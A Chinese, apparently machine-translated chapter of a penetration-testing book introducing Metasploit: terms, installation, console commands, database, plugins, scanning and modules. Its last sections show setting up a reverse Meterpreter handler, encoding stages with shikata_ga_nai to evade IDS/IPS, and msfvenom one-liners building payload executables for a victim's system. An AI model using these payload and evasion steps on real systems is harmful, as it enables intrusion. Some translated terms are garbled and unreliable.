# 二、Metasploit 要素

Metasploit 项目是一个用于渗透测试以及 IDS 签名捕获的工具。在这个项目下是 Metasploit 框架子项目，它是开源的，可以免费使用。它能够针对目标开发和执行攻击代码。Metasploit 最初由 H.D Moore 于 2003 年创建，并于 2009 年被 Rapid7 收购。Metasploit 框架是这十年中使用最广泛的工具之一。无论您是否在网络中执行适当的侦察以防止攻击，几乎所有渗透测试都使用 Metasploit。

在本章中，我们将首先介绍 Metasploit 框架并查看其术语。然后，我们将在不同的平台上安装和设置 Metasploit，以便学习如何使用一些基本命令与 Metasploit 框架交互。

本章将介绍以下主题：

*   Metasploit 框架简介
*   Metasploit 框架术语
*   Metasploit 安装和设置
*   Metasploit 框架入门

# 技术要求

以下是本章所需的技术要求：

*   Metasploit 框架 v5.0.74（[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework) ）
*   基于*nix 的系统或基于 Microsoft Windows 的系统
*   Nmap

# Metasploit 框架简介

Metasploit 是我们想到渗透测试或开发时想到的第一个工具。Metasploit 框架是 Metasploit 项目的一个子项目。Metasploit 项目通过提供有关漏洞的信息以及帮助我们进行渗透测试来帮助我们。

Metasploit 首次出现在 2003 年。它由 H.D Moore 使用 Perl 开发，但后来在 2007 年移植到 Ruby。到 2009 年 10 月，Rapid7 已经收购了 Metasploit 项目。Rapid 7 随后添加了 Metasploit Express 和 Metasploit Pro 的商业版本。这就是 Metasploit 框架开始发展的时候。

Metasploit 框架是一个开源框架，它允许我们编写、测试和执行漏洞代码。它还可以被视为渗透测试和开发工具的集合。

在本章中，我们将介绍安装和使用 Metasploit 框架的基础知识。

# Metasploit 框架术语

现在，让我们看一下 Metasploit 框架的基本术语。在本书中，我们将经常使用这些术语，因此在深入研究**Metasploit 框架**（**MSF**）及其用法之前，最好先彻底理解它们：

*   **漏洞利用**：当 Metasploit 启动时，它显示框架中已经可用的公开可用漏洞利用的计数。漏洞利用是一段利用漏洞并提供所需输出的代码。
*   **有效载荷**：这是一段代码，通过利用漏洞发送到目标系统或应用，以执行我们选择的行为。有效载荷实际上可分为三种主要类型：单级、分段和分段：
    *   **Singles**：这些有效负载是独立的，通常用于执行简单任务，如打开`notepad.exe `文件和添加用户。
    *   **阶段**：在两个系统之间建立连接。然后，他们将阶段下载到受害者的机器上。
    *   **阶段**：这些阶段可被视为有效载荷的组成部分。它们提供了不同的功能，例如访问命令 shell、运行可执行文件以及上载和下载文件，并且不需要有大小限制。这种特性的一个例子是流量计。

其他类型的有效载荷如下所示：

*   **辅助：**Metasploit 框架配备了数百个辅助模块，可用于执行不同的任务。这些模块可以被认为是不利用任何东西的小型工具。相反，他们在剥削过程中帮助我们。

*   **编码器：**编码器将信息（在本例中为汇编指令）转换为另一种形式，在执行时，将给出相同的结果。编码器用于避免在有效负载交付到目标系统/应用时检测到有效负载。由于在组织网络中配置的大多数 IDSE/IPSE 都是基于签名的，因此在对有效负载进行编码时，它将更改整个签名并轻松绕过安全机制。最著名的编码器是`x86/shikata_ga_nai`。这是一个多态 XOR 加性反馈编码器，这意味着每次使用它时都会生成不同的输出。当它第一次出现时，它是最难发现的。当与多个迭代一起使用时，它仍然非常方便。然而，迭代必须仔细使用，并且总是首先测试；它们可能无法按预期工作，并且随着每次迭代，有效负载的大小都会增加。
*   **NOP 生成器：**NOP 生成器用于生成一系列随机字节，与传统的 NOP 底座相当，只是它们没有任何可预测的模式。NOP 底座也可用于绕过标准 ID 和 IPS NOP 底座签名（`NOP Sled - \x90\x90\x90`。
*   **项目：**这是一个容器，用于在渗透测试活动期间存储数据和凭证。它更常用于 Metasploit Pro 版本。
*   **工作空间：**工作空间与项目相同，但仅在 Metasploit 框架中使用。
*   **任务：**这是我们在 Metasploit 中执行的任何操作。
*   **监听器**：监听器等待来自被攻击目标的传入连接，并管理连接的目标外壳。
*   **Shell**：Shell 是一个控制台，比如一个接口，让我们可以访问远程目标。
*   **计量器**：在官网上，计量器定义如下：

一种高级的、动态可扩展的有效负载，使用内存中的 DLL 注入 stager，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API

现在我们已经了解了基本术语，让我们看看如何安装 Metasploit 并进行设置。

# 安装和设置 Metasploit

安装 Metasploit 非常简单，不同的操作系统支持其设置过程。Metasploit 可以安装在以下系统上：

*   *基于 nix 的系统（Ubuntu、macOS 等）
*   基于 Windows 的系统

对于所有受支持的操作系统，安装 Metasploit 的步骤几乎相同。唯一的区别是当您需要执行命令行安装时。

# 在*nix 上安装 Metasploit 框架

在开始使用 Metasploit 之前，我们需要安装它。遵循以下步骤：

1.  通过下载并执行适用于 Linux 和 macOS 系统的 Metasploit 夜间安装程序，或者使用以下命令（CLI），可以在*nix 上安装 Metasploit：

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

以下屏幕截图显示了前面命令的输出：


上述命令将下载一个 shell 脚本，该脚本将导入 Rapid7 签名密钥（PGP），并安装所有支持 Linux 和 macOS 系统所需的软件包：


2.  一旦安装过程完成，运行 Metasploit 就相当简单了。在终端中，只需键入以下命令：

```
msfconsole
```

以下屏幕截图显示了前面命令的输出：


Note: Metasploit Framework v5.0.0 was released with lots of new features. You can take a look at these features and more at [https://blog.rapid7.com/2019/01/10/metasploit-framework-5-0-released/](https://blog.rapid7.com/2019/01/10/metasploit-framework-5-0-released/).

我们现在应该看到 Metasploit 框架已经启动并运行。首次加载 MSF 控制台时，它会使用 PostgreSQL 自动创建数据库。该数据库用于存储在执行扫描、利用漏洞等操作时收集的任何数据。

3.  每周，新的漏洞利用和其他模块都会添加到 Metasploit 中，因此每两周更新一次 Metasploit 总是一个好主意。这可以通过使用以下命令来完成：

```
msfupdate
```

以下屏幕截图显示了前面命令的输出：


在撰写本书时，Metasploit 框架提供了 1991 个漏洞利用模块、1089 个辅助模块、340 个 post 模块、560 个有效负载模块、45 个编码器模块、10 个 NOP 和 7 个规避模块。

# 在 Windows 上安装 Metasploit 框架

现在我们已经了解了如何在基于 NIX 的系统上安装 Meta ASP 框架，让我们快速查看如何在 Windows 环境下安装 Meta ASTramework 框架：

1.  首先，我们需要从以下 URL 下载 Windows 夜间安装程序：

```
https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers
```

输入此 URL 后，您将看到以下输出：



2.  下载完成后，我们可以双击 MSI 文件进行安装。将打开一个新窗口，如下面的屏幕截图所示。
3.  我们需要按照标准安装步骤（下一步，下一步，我同意，然后安装）在 Windows 上安装 Metasploit：


It is recommended that you go through the Terms and Conditions of the tool.

安装完成后，我们仍然无法从命令提示符下运行 Metasploit，如下面的屏幕截图所示。这是因为没有设置 path 变量，所以执行命令时系统不知道在哪里查找`msfconsole`二进制：


4.  让我们找到`msfconsole`二进制文件。在我们的案例中，可以在这里找到：

```
C:\metasploit-framework\bin
```

在以下屏幕截图中可以看到前面命令的输出：


5.  现在，我们需要通过键入以下命令将此目录添加到路径：

```
set PATH=%PATH%;C:\metasploit-framework\bin
```

这可以在以下屏幕截图中看到：


既然设置了 path 变量，我们就可以从命令提示符下启动 Metasploit 了：


运行上述命令将启动 Metasploit 及其控制台。现在我们已经获得了对 MSF 控制台的访问，让我们开始了解 Metasploit 框架的基础知识。

# Metasploit 框架入门

安装完成后，我们可以继续了解 Metasploit 框架的用法。与 Metasploit 框架交互的最常见方式是通过`msfconsole`。控制台提供了在一个非常简单的命令行中可用的所有功能和选项，用于有效的测试和利用（渗透）。

# 使用 msfconsole 与 Metasploit 框架交互

您可以在**正常模式**下使用`msfconsole`命令与 MSF 控制台交互，也可以在**安静模式**下运行 MSF 控制台命令。这些模式之间的唯一区别是控制台中没有错误、警告和横幅。在**正常模式**下运行会出现一个很酷的 MSF 横幅。在**安静模式**下，您可以通过执行`msfconsole -q`命令与 MSF 控制台进行交互：


根据您的情况和需要，还可以使用其他 MSF 控制台选项。例如，如果您希望在没有任何数据库支持的情况下运行 MSF 控制台，则始终可以执行`**msfconsole -qn**`命令。

如果数据库尚未初始化，则无法执行任何命令或加载带有`db_`前缀的插件：


当您尝试从控制台加载插件时，会出现以下未初始化错误：


在这里，我们使用了`msfconsole`中的`-x`选项。正如您可能猜到的，此开关用于在控制台内执行 MSF 支持的命令。我们还可以在控制台中执行 shell 命令，因为 Metasploit 将这些命令传递给我们的默认 shell 以用作参数：


在前面的命令中，我们从 MSF 控制台回显`WELCOME TO METASPLOIT FRAMEWORK`字符串并退出。要检查所有可用的选项，您可以执行`msfconsole -h`命令。现在让我们看一下 MSF 控制台中使用的最基本和最常见的命令。

# MSF 控制台命令

MSF 控制台命令可分类如下：

*   **核心 MSF 控制台命令：**这些命令是 MSF 控制台中使用的最常见和最通用的命令。
*   **模块管理命令：**MSF 模块使用这些命令进行管理。在这些命令的帮助下，您可以编辑、加载、搜索和使用 Metasploit 模块。
*   **MSF 作业管理命令：**使用这些命令，您可以处理 Metasploit 模块作业操作，例如使用处理程序创建作业、列出后台运行的作业以及终止和重命名作业。
*   **资源脚本管理命令：**使用资源脚本时，可以在控制台中使用这些命令执行脚本。您可以为执行提供存储的脚本文件，也可以将 MSF 控制台开始时使用的命令存储到文件中。
*   **后台数据库命令：**这些命令用于管理数据库；也就是说，要检查数据库连接，请设置连接并断开连接，在 MSF 中恢复/导入数据库，从 MSF 中备份/导出数据库，并列出与目标相关的已保存信息。

*   **凭证管理命令：**您可以使用`creds`命令查看和管理保存的凭证。
*   **插件命令：**MSF 控制台中的插件可以使用插件命令进行管理。这些命令可用于加载的所有插件。

To learn how to use the `msfconsole` command, please refer to the following URL: [https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/).

MSF 控制台不仅允许我们使用其中的大量模块，而且还允许我们根据用户自定义控制台本身。让我们看看如何定制控制台。

# 自定义全局设置

在定制控制台之前，我们需要了解应用于控制台的当前（默认）全局设置：

1.  这可以在 Metasploit 框架启动时使用`show options`命令完成：



2.  我们可以从这些设置中更改提示（`msf`文本）。要更改提示和提示字符，我们可以执行`set Prompt`和`set PromptChar`命令：



3.  我们甚至可以使用一些扩展格式来配置更高级的提示，如下所示：


以下是可以使用的扩展格式：

| **文字** | **说明** |
| `%D` | 当前目录 |
| `%U` | 当前用户 |
| `%W` | 当前工作区 |
| `%T` | 当前时间戳 |
| `%J` | 当前正在运行的作业数 |
| `%S` | 当前打开的会话数 |
| `%L` | 本地 IP |
| `%H` | 主机名 |
| `%red` | 将颜色设置为红色 |
| `%grn` | 将颜色设置为绿色 |
| `%yel` | 将颜色设置为黄色 |
| `%blu` | 将颜色设置为蓝色 |
| `%mag` | 将颜色设置为洋红色 |
| `%cya` | 将颜色设置为青色 |
| `%whi` | 将颜色设置为白色 |
| `%blk` | 将颜色设置为黑色 |
| `%und` | 强调 |
| `%bld` | 大胆的 |

同样的格式也可以用于设置提示字符。

# MSF 中的变量操作

Metasploit 框架中的变量操作可以帮助用户充分利用模块的特性。作为笔式测试人员，有时我们需要扫描很多目标，在几乎所有的测试场景中，我们必须设置 Metasploit 模块所需的选项。这些选项（如远程主机 IP/端口和本地主机 IP/端口）是为正在使用的特定 Metasploit 模块设置的。我们越早了解变量操作，就越能有效地使用该模块。

可以使用数据存储实现变量操作。数据存储是一种具有以下功能的变量类型：

*   以键/值对存储数据
*   使 MSF 控制台能够在执行模块时配置设置
*   允许 MSF 在内部将值传递给其他模块

数据存储被各种类用来保存选项值和其他状态信息。有两种类型的数据存储：

*   **模块数据存储**：此数据存储只保存与加载模块相关的信息和选项（本地声明）。在 MSF 控制台中，您可以使用`set`命令保存模块选项，使用`get`命令获取已保存的值：


如上图所示，`smb_version`模块已加载，`RHOSTS`选项设置为`192.168.2.17`。但是一旦我们卸载了模块（使用`back`命令），就没有全局设置 RHOSTS 选项的值。要全局设置这些选项，我们需要使用全局数据存储。

*   **全局数据存储**：该数据存储将信息和选项保存到所有模块（全局声明）。在 MSF 控制台中，您可以使用`setg`命令保存模块选项，使用`getg`命令获取：


在前面的屏幕截图中，我们全局保存了 RHOSTS 选项中的值`192.168.2.17`，这意味着如果我们使用另一个模块，将设置 RHOSTS 选项。如果使用了`setg`，我们总是可以使用`get`或`getg`来检索数据。

仅在模块中执行`set`命令将显示已保存的所有可用选项（模块数据存储和全局数据存储）：


在从数据存储中删除值的情况下，始终可以使用`unset`和`unsetg`命令。

Note: If an option is set globally using `setg`, you cannot remove it using the `unset` command. Instead, you need to use `unsetg`.

# 探索 MSF 模块

可以使用`show`命令访问 Metasploit 框架中可用的所有选项和模块。让我们来看一看：

1.  要查看此命令的所有有效参数，您需要在 MSF 控制台中执行`show -h`命令，如下所示：


2.  要显示 Metasploit 框架中可用的辅助工具，请执行`show auxiliary`命令，如下所示：



3.  同一命令用于列出其他模块和模块特定参数。或者，您可以始终按键盘上的*选项卡*按钮两次，查看`show`命令的可用参数：


4.  对于特定于模块的参数，只需加载您想要使用的模块，然后在其中执行`show`命令。在这种情况下，我们使用`smb_version`辅助模块，按下*选项卡*按钮两次，查看`show`命令的所有可用参数：


5.  我们可以使用`show evasion`命令查看此特定模块可用的所有规避选项：



注意：这些选项通常用于绕过网络过滤端点，如**入侵检测/预防系统**（**IDS/IPSes**）。

# 在 MSF 中运行 OS 命令

Metasploit 框架的一个特性是，我们可以从控制台执行普通的 shell 命令。您可以执行 shell 支持的任何 shell 命令（bash/sh/zsh/csh）。在本例中，我们从控制台执行了`whoami && id`命令。该命令已执行，结果显示在控制台中，如以下屏幕截图所示：


我们也可以通过`/bin/bash -i`命令或`/bin/bash`从控制台使用交互式 bash 脚本（使用`-i`开关以交互模式运行 bash）：


Note: To get an interactive command prompt in Windows, execute `cmd.exe` in the console.

# 在 Metasploit 框架中设置数据库连接

Metasploit 框架最酷的特性之一是使用后端数据库来存储与目标相关的所有内容。运行 MSF 时，请按照以下步骤设置数据库：

1.  使用控制台的`db_status`命令检查数据库是否连接到 MSF，如下所示：


2.  如前面的屏幕截图所示，数据库尚未连接。我们可以通过使用数据库配置文件、一行命令或使用 RESTfulHTTPAPI 数据服务（MSF5 的一个新特性）连接到数据库。默认情况下，不会有`database.yml`文件，但您可以从`database.yml.example`文件复制内容。您可以按如下方式编辑文件：


Note: If you don't initialize and install the database, this method won't work. For more information, go to [https://fedoraproject.org/wiki/Metasploit_Postgres_Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup).

3.  文件编辑保存后，您可以使用`db_connect`命令中的`-y`开关连接到数据库：


4.  让我们再次检查状态：


如您所见，控制台现在已连接到后端数据库。

# 在 MSF 中加载插件

插件是 Metasploit 框架中的扩展功能。它们利用 Ruby 语言的灵活性来扩展 MSF 的应用范围。这使得插件几乎可以做任何事情，从构建新的自动化功能到提供数据包级内容过滤以绕过 IDSes/IPSes。插件还可用于将 Nessus、OpenVAS 和 Sqlmap 等第三方软件集成到框架中。遵循以下步骤：

1.  要加载插件，需要使用`load`命令：


2.  默认情况下，Metasploit 附带一些内置插件。使用`load`命令后，按下*Tab*按钮两次即可找到：


Note: All the available built-in plugins can be found here: [https://github.com/rapid7/metasploit-framework/tree/master/plugins](https://github.com/rapid7/metasploit-framework/tree/master/plugins)

3.  让我们通过在控制台中执行`**load openvas**`命令来加载 OPENVAS 插件。此插件将在后面的章节中介绍：



4.  插件成功加载后，您可以在控制台中执行`**help**`命令，并查找“OpenVAS 命令”，以查看此特定插件支持的所有命令：


You can load custom plugins by copying the `.rb` plugin files in the `<MSF_INSTALL_DIR>/plugins/` directory and executing the `load` command with the plugin name.

# 使用 Metasploit 模块

Metasploit 模块非常易于使用。简而言之，任何人都可以按照此过程熟悉模块：


在这种情况下，让我们使用`smb_version`辅助模块：

1.  通过执行`use auxiliary/scanner/smb/smb_version`命令，我们在控制台中加载了模块：


2.  现在，我们需要根据需要配置模块。使用`show options`命令可以看到`smb_version`的可用选项：



3.  我们可以使用`set/setg`命令来配置模块选项。`smb_version`的高级选项也可用，可以使用`show advanced`命令显示：



4.  要规避 IDS/IPS 端点，您可以为`smb_version`模块设置规避选项。使用`show evasion`命令列出此模块支持的所有规避选项：


5.  配置完成后，您可以在运行模块之前，通过执行`show missing`命令最后一次检查缺少的选项：


6.  在这种情况下，我们将在`192.168.2.17`中设置 RHOSTS，然后使用`run`命令或`execute`命令执行模块：


Note: The modules won't run unless all the required settings have been configured.

# MSF 中的搜索模块

在 Metasploit 中搜索非常容易。`search`命令接受用户提供的字符串值。如以下屏幕截图所示，搜索`windows`字符串将列出适用于 Windows 操作系统的所有模块：



Metasploit 搜索还允许我们根据模块类型进行搜索。例如，键入`**search windows type:exploit**`将显示所有 Windows 漏洞攻击的列表。同样，我们可以定义 CVE。要搜索 2018 年发布的 Windows 漏洞，我们可以键入`search windows type:exploit cve:2018`，如以下屏幕截图所示：


接下来，我们将学习如何在 MSF 中检查主机和服务。

# 正在 MSF 中检查主机和服务

到目前为止，我们已经介绍了`msfconsole`的基础知识。现在，让我们继续学习如何管理主机和服务：

1.  要查看已添加的所有主机的列表，请使用`hosts`命令：


2.  要添加新主机，可以使用`hosts -a <IP>`命令，如下图所示：



3.  要删除主机，我们使用`hosts -d <IP>`命令，如下面的屏幕截图所示：



类似地，`services`命令允许我们查看添加到 Metasploit 的所有主机上可用的所有服务的列表。让我们来看一看：

1.  首先，我们需要使用`services`命令：


2.  要查看单个主机的服务列表，可以使用`services <IP>`命令，如下图所示：


We cannot add multiple ports at once. Doing that will throw an error – Exactly one port required – as shown in the preceding screenshot.

Metasploit 还允许我们使用`services -a -p <port number>`命令手动添加自定义服务，如以下屏幕截图所示：


接下来，让我们看看使用 MSF 进行 Nmap 扫描。

# 使用 MSF 进行 Nmap 扫描

一旦我们将主机添加到 Metasploit，下一步就是扫描。Metasploit 有一个内置的 Nmap 包装器，它在 Metasploit 控制台中为我们提供了与 Nmap 相同的功能。这个包装器的好处是默认情况下将输出保存在数据库中。

要对主机运行扫描，我们可以使用`db_nmap <IP>`命令。在这里，我们使用`--open`标志仅查看打开的端口。`-v`用于详细，`-Pn`用于执行无 ping 扫描，`-sV`用于执行服务扫描，`-sC`用于对发现的端口运行脚本扫描：


以下屏幕截图显示了主机上运行的扫描输出：


Metasploit 还允许我们使用`db_import`将 Nmap 已完成的外部扫描导入其数据库：


目前，MSF 支持以下格式将数据导入其数据库：Acunetix、Amap 日志、Amap 日志-m、Appscan、Burp 会话 XML、Burp 问题 XML、CI、Foundstone、FusionVM XML、组策略首选项凭据、IP 地址列表、IP360 ASPL、IP360 XML v3、Libpcap 数据包捕获、Masscan XML、Metasploit PWDump 导出、Metasploit XML、，Metasploit Zip 导出、Microsoft 基线安全分析器、NeXpose 简单 XML、NeXpose XML 报告、Nessus NBE 报告、Nessus XML（v1）、Nessus XML（v2）、NetSparker XML、Nikto XML、Nmap XML、OpenVAS 报告、OpenVAS XML、前哨 24 XML、Qualys 资产 XML、Qualys 扫描 XML、视网膜 XML、Spiceworks CSV 导出和 Wapiti XML。

# 在 MSF 中设置有效负载处理

在启动模块之前，我们需要设置处理程序。此处理程序是一个存根，用于处理在 Metasploit 框架之外启动的漏洞：

1.  通过键入`use exploit/multi/handler`命令加载处理程序模块：


2.  接下来，我们使用`show options`命令查看可用选项，如以下屏幕截图所示：


如我们所见，选项当前为空。一旦我们定义了有效负载，就会加载这些选项。例如，我们将在这里使用`windows/x64/meterpreter/reverse_tcp`有效负载，并设置有效负载的标准选项，例如`LHOST`和`LPORT`。`stageencoder`和`enablestageencoding`选项设置为对处理程序发送给受害者的第二阶段进行编码：


首先，我们在选择编码器之前设置了`LHOST`和`LPORT`，这将使用`shikata_ga_nai`编码器对 stager 进行编码。我们使用 stager 编码机制的原因是通过编码 stager 绕过 IPSes/DPSes，从而动态更改签名。

我们还需要通过将其值设置为`true`**来启用阶段编码。**此选项将使用我们选择的编码器启用第二阶段编码过程。一旦设置了`stageencoding`选项，就会执行`run -j`命令在后台启动处理程序。

运行处理程序的另一种方法是使用控制台中可用的`handler`命令，并向其传递参数：



因此，用于使用前面讨论的所有设置执行处理程序的一行命令将是`handler -H <IP> -P <Port> -e <encoder> -p <payload>`，如以下屏幕截图所示：


接下来，我们将研究 MSF 有效载荷的生成。

# MSF 有效载荷生成

有效负载生成是 Metasploit 框架中最有用的功能之一。从简单的外壳代码生成到完全武器化的 EXE/DLL 文件，Metasploit 可以在一行命令中生成。有效载荷可以通过两种方式生成。

# 使用 msfconsole（一个班轮）生成 MSF 有效负载

通过使用 MSF 控制台并执行有效负载生成命令，您可以生成任何 MSF 支持的有效负载。使用此技术的一个优点是，您不必单独启动负载处理程序。这可以使用单行命令完成。要生成有效负载并启动处理程序，请执行以下代码：

```
'msfconsole -qx "use <MSF supported payload>; set lhost<IP>; set lport <Port>; generate -f<Output File Format> -o<payload filename>; use exploit/multi/handler; set payload<MSF supported payload>; set lhost <IP>; set lport <Port>; run -j"'
```

以下屏幕截图显示了前面命令的输出：


前面的命令将生成`reverse_https`流量计有效载荷。列出它以确认生成的有效负载，并在端口`9090`上为传入连接启动处理程序。生成有效负载的另一种方法是使用 MSFvenom。

在前面的命令中，`-q`开关用于在安静模式下启动 MSF，`-x`在启动后在控制台执行该命令。

# 使用 msfvenom 生成 MSF 有效负载

MSFvenom 是一个内置工具，无需启动 MSF 即可生成和混淆有效负载。执行`msfvenom -p <MSF supported payload> lhost=<IP> lport=<PORT> -f <Output File Format> -o <payload filename>`命令以 EXE 格式生成`reverse_https`MeterMeter 有效负载并保存文件：


In both cases, we used `ls -alh https_2.exe`.

现在可以在受害者的系统上上传/执行此有效负载，以便通过安全的 HTTPS 隧道将反向 MeterMeter 连接返回给我们。

# 总结

在本章中，我们学习了 Metasploit 框架的基本术语，以及如何在基于*nix 和基于 Windows 的系统上安装和设置 Metasploit 框架。然后，我们研究了无国界医生的使用情况。我们加载模块/辅助设备，设置目标值，并在主机上运行它们。最后，我们学习了如何使用 MSFvenom 为开发目的生成有效负载。

在下一章中，我们将学习如何使用 Metasploit，但使用 web 界面**用户交互**（**用户界面**选项。这确实可以帮助那些对**命令行界面**（**CLI**不太了解的人。

# 问题

1.  Metasploit 框架是否免费使用？

2.  我可以加密我的有效载荷，使他们可以逃避反病毒软件吗？

3.  我使用 MySQL 作为我的笔测试后端。我可以将 MySQL 或任何其他非 PostgreSQL 数据库与 Metasploit 集成吗？

4.  我有多个安装了 Metasploit 框架的系统。我可以为每个 Metasploit 实例集中数据库吗？

# 进一步阅读

以下链接将帮助您了解有关 Metasploit 的更多信息，所有这些信息都来自 Metasploit 的官方博客和文档：

*   [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)
*   [http://resources.metasploit.com/](http://resources.metasploit.com/)
*   [https://metasploit.help.rapid7.com/docs](https://metasploit.help.rapid7.com/docs)